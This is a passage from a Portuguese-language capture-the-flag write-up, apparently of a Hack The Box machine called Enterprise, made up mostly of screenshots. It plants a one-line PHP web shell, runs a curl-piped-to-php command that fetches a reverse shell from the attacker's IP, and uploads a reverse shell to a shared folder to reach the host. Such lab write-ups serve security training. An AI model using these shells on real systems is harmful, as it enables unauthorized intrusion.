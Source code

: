 Adicionamos nosso "shell" ai dentro dele

> echo system($_REQUEST['cmd']);

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j6.png)

Salvamos e acessamos pela página

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j8.png)

Agora pegamos nossa reverse shell

`curl 10.10.14.40/php-reverse-shell.php | php`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j7.png)

Recebemos a conexão

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j9.png)

## Estamos em outro container!

Verificando o ip da máquina, percebemos que estamos em outro container

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j10.png)

Hummm... contudo, olhando as pastas do servidor web encontramos algo que nos chamou atenção, a pasta `files`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j11.png)

Será que é a mesma do servidor na porta 443? Vamos tentar criar um arquivo ali para testar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j12.png)

Agora acessamos na página pra ver

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j13.png)

Ai está!

# Pegando shell na máquina

Bom, agora vamos upar nosso reverse-php lá dentro pra executar e ganhar uma shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j14.png)

Acessamos

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j15.png)

Ganhamos a shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_j16.png)
